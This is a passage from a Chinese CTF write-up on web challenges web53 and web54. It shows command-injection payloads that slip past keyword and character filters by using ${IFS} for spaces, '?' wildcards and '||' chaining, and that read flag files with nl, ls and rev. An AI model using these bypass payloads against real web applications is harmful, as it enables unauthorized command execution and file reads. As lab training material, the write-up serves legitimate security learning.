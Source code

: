 题目过滤了`<`和`>`，则上一题的空格绕过方法用不了了，可以用`${IFS}`代替空格，输入

```
?c=nl${IFS}fla?.php%7c%7ca
```

发现文件中的flag是假flag，想到flag可能藏在根目录下，执行命令

```
?c=ls${IFS}/%7c%7ca
```

发现有个叫flag的文件，则直接读即可：

```
?c=nl${IFS}/fla?%7c%7ca
```



### system命令执行

#### web53

![image-20250209201940561](assets/image-20250209201940561.png)

payload：

```
?c=nl${IFS}fla?.php%7c%7ca
```



#### web54

![image-20250209203305072](assets/image-20250209203305072.png)

在之前过滤的关键字中加入了通配符，导致没法在这些关键字中添加特殊符号来绕过了，算是彻底禁用了这些命令，这里`nl`也被过滤了，考虑使用`rev`：

```
?c=rev${IFS}fla?.php%7c%7ca
```

会得到一段反过来的flag
